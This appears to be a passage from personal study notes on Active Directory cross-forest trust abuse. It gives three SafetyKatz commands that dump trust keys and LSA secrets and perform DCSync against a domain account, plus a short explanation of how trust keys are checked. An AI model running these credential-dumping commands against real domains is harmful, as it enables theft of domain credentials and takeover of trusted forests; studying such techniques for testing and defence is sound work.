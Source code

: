 ### Abuse


```powershell
SafetyKatz.exe "lsadump::evasive-trust /patch"

SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\mcorp$" "exit"

SafetyKatz.exe "lsadump::lsa /patch"
```




> [!NOTE] **NOTE**
> Same as cross domain trust functionality, where the trusting DC only checks if it can decrypt the ticket using the **Trust Key** that both DCs have

![[Pasted image 20250519115856.png]]
### Cross Forest Kerberos Functionality
![[Pasted image 20250519115832.png]]
